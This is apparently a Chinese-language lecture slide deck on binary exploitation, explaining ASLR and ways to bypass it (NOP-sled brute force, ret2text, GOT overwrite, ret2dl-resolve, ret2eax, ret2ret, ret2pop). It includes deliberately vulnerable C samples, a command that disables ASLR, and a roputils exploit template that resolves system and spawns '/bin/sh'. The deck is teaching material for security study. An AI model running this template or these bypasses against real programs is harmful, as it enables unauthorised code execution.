

---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---


<!-- slide data-notes="" -->
# 二进制漏洞挖掘与利用
### ASLR保护与ASLR绕过
<!-- slide data-notes="" -->
## ASLR
地址空间配置随机载入（Address Space Layout Randomization，ASLR，又称地址空间配置随机化、地址空间布局随机化）是一种防范内存损坏漏洞被利用的计算机安全技术。

地址空间配置随机载入利用随机方式配置资料定址空间，使某些敏感资料（例如作业系统内核）配置到一个恶意程式无法事先获知的位址，令攻击者难以进行攻击。

<!-- slide data-notes="" -->
## ASLR
传统攻击：
- 基础栈溢出：需要定位shellcode
- return-to-libc： 需要libc地址

开启ASLR后：
```c
lometsj@ubuntu:~$ ldd test
	linux-gate.so.1 =>  (0xf7f0c000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d32000)
	/lib/ld-linux.so.2 (0xf7f0e000)
lometsj@ubuntu:~$ ldd test
	linux-gate.so.1 =>  (0xf7f37000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d5d000)
	/lib/ld-linux.so.2 (0xf7f39000)
lometsj@ubuntu:~$ ldd test
	linux-gate.so.1 =>  (0xf7f2c000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d52000)
	/lib/ld-linux.so.2 (0xf7f2e000)
```

`libc`基址不再固定，`shellcode`的地址（栈、bss等地址）在每一次运行时也相应地发生改变，传统的地址硬编码的攻击基本失效。
<!-- slide data-notes="" -->
## ASLR
Aspect|aslr
----|----
表现|优异-每次加载都会随机
发布|获得内核支持，不需要重新编译
兼容性|对安全应用程序透明（位置独立）
保护效果|64位下效果显著
<!-- slide data-notes="" -->
## ASLR
查看当前ASLR状态：
```
$ cat /proc/sys/kernel/randomize_va_space
2
```
该值为：
- `1`: 随机化对战，VDSO，共享内存区域的位置
- `2`: 同上，并添加数据段的随机
- `0`: 禁用ASLR

linux关闭ASLR:
```
# echo 0 >> /proc/sys/kernel/randomize_va_space
```
<!-- slide data-notes="" -->
## ASLR Bypass

- 暴力破解

- 非随机化内存
    - ret2text
    - 函数指针
- GOT表劫持（不依赖libc空间）
    - rewrite GOT[]
    - ret2dl-resolve
- 栈juggling
    - ret2ret
    - ret2pop
    - ret2eax


<!-- slide data-notes="" -->
## ASLR Bypass之暴力绕过
- 使用大量NOP填充shellcode，提高地址命中率，并暴力搜索栈的地址
payload： nop*n + shellcode


<!-- slide data-notes="" -->
## ASLR Bypass之非随机化内存（一）
ret2text
text段有可以执行的程序代码，并且地址不会被除PIE之外的ASLR随机化
可以将程序执行流劫持到意外的（但已经存在）的程序函数
<!-- slide data-notes="" -->
## ASLR Bypass之非随机化内存（二）
### 函数指针劫持
覆盖一个函数指针指向：
- 程序函数
- 程序连接表中的其他库函数
```c
int secret(char *input){... }
int chk_pwd(char *input){... }

int main()
{
	int (*ptr)(char *input);
	char buf[8];

	ptr = &chk_pwd;
	strncpy(buf,argv[1],12);
	printf("hello %s!\n",buf);

	(*ptr)(argv[2]);
}
```
<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（一）
### 动态链接过程
* 第一次运行函数
函数先跳转到plt表，从plt表跳转到got表，got表中存储的是该函数在plt表中的地址+4偏移，于是又跳转到plt下，执行push xx，jmp <got [0]>，其中push是给检索函数提供参数，jmp到got表的检索函数，此时got表中就会填充函数的准确地址
```c
#include <stdio.h>

int main()
{
        printf("hello world\n");
        return 0;
}

```
<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（一）
### 动态链接过程
```c
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000400526 <+0>:	push   rbp
   0x0000000000400527 <+1>:	mov    rbp,rsp
   0x000000000040052a <+4>:	mov    edi,0x4005c4
   0x000000000040052f <+9>:	call   0x400400 <puts@plt>
   0x0000000000400534 <+14>:	mov    eax,0x0
   0x0000000000400539 <+19>:	pop    rbp
   0x000000000040053a <+20>:	ret
End of assembler dump.
pwndbg> disass *0x400400
No function contains specified address.
pwndbg> disass 0x400400
Dump of assembler code for function puts@plt:
   0x0000000000400400 <+0>:	jmp    QWORD PTR [rip+0x200c12]        # 0x601018
   0x0000000000400406 <+6>:	push   0x0
   0x000000000040040b <+11>:	jmp    0x4003f0
End of assembler dump.
pwndbg> x 0x601018
0x601018:	0x00400406

```
<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（一）
### 改写GOT表项
- GOT中存储的是函数在内存中的真实地址
- 利用方法
    - 覆盖got表中的地址，当程序运行某一个函数，实际执行的是另一个我们覆盖的函数。
    - e.g.:覆盖printf()为system()

<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（二）
### ret2dl-resolve（32位为例）

```
08048300 <function@plt>:
   8048300:   ff 25 0c a0 04 08       jmp    *0x804a00c
   8048306:   68 00 00 00 00          push   rel_offset ===>>notice
   804830b:   e9 e0 ff ff ff          jmp    80482f0 <function@plt-0x10>

gdb-peda$ x/2i 0x80482f0
   0x80482f0:   push   DWORD PTR ds:0x804a004  ===>>struct link_map *l（跟踪_dl_fixup()可以看到第一个参数为0x804a004的内容0xf7ffd918）
   0x80482f6:   jmp    DWORD PTR ds:0x804a008  ===>>_dl_runtime_resolve
```
首次调用库函数时完整的函数调用链：
`0x80482f0`=>`_dl_runtime_resolve`=>`_dl_fixup()`=>`_dl_lookup_symbol_x()`=>`do_lookup_x()`

其中`_dl_runtime_resolve((link_map*)l,reloc_offset)`，第二个参数`rel_offset`为当前调用函数在GOT中的偏移。

<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（二）
### ret2dl-resolve（32位为例）
`elf.h`:
``` 
#define reloc_offset reloc_arg
```

* 计算重定位条目基址 `Elf32_Rel * reloc` = `JMPREL` + `reloc_offset`;
* 计算符号表条目基址 `Elf32_Sym * sym` = `&SYMTAB[ ELF32_R_SYM (reloc->r_info) ]`;
* 获得符号名称 `const char *symname` = `strtab` + `sym->st_name`;
* 通过符号名称`symname`搜索动态库，将地址填入`function@got`（即`&GOT+reloc_offset`）
* 调整堆栈，执行`function`

<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（二）
### ret2dl-resolve（32位为例）
可通过伪造两个相关的数据结构：
```c
typedef struct
{
  Elf32_Addr    r_offset;       /* Address */
  Elf32_Word    r_info;         /* Relocation type and symbol index */
} Elf32_Rel;
typedef struct
{
  Elf32_Word    st_name;        /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;       /* Symbol value */
  Elf32_Word    st_size;        /* Symbol size */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf32_Section st_shndx;       /* Section index */
} Elf32_Sym;

```
控制`reloc_offset`的数值，使`const char *symname`指向伪造的数据结构中的函数名。最后在`function@got`即`&GOT+reloc_offset`中填入我们伪造的`symname`（如`system`）函数的真实地址。

<!-- slide data-notes="" -->
## ASLR Bypass之GOT劫持（二）
### ret2dl-resolve自动利用工具roputils
现成32位模板：
```python
from roputils import *

fpath = sys.argv[1]
offset = int(sys.argv[2])

rop = ROP(fpath)
addr_bss = rop.section('.bss')

buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p = Proc(rop.fpath)
p.write(p32(len(buf)) + buf)
print "[+] read: %r" % p.read(len(buf))

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)

p.write(buf)
p.interact(0)
```
当不能直接利用roputils时需要手动伪造两个数据结构、计算偏移和填充大小。

<!-- slide data-notes="" -->
## ASLR Bypass之ret2eax

```c
void msglog(char *input) {
    char buf[64];
    strcpy(buf, input);      //<---------返回值是一个存储在eax的指向buf的指针
}

int main(int argc, char *argv[]) {
    if(argc != 2) {
        printf("exploitme <msg>\n");
        return -1;
    }

    msglog(argv[1]);

    return 0;
}
```
随后，调用*eax就会把程序控制流劫持到buf上

<!-- slide data-notes="" -->
## ASLR Bypass之ret2ret
如果栈上有一个函数指针需要被执行，可以考虑这个`ret = pop eip；jmp eip`；
```
&shellcode
&ret
&ret
&ret
overwrite
```
```c
void f(char *str) {
   char buffer[256];
   strcpy(buffer, str);
}

int main(int argc, char *argv[]) {
   int no = 1;
   int *ptr = &no;
   f(argv[1]);
}
```
<!-- slide data-notes="" -->
## ASLR Bypass之ret2pop
返回到一个地址，执行的命令为`pop xxx,ret`，在栈上布置要返回的函数和参数。


<!-- slide class="middle"-->

# Thanks for watching!
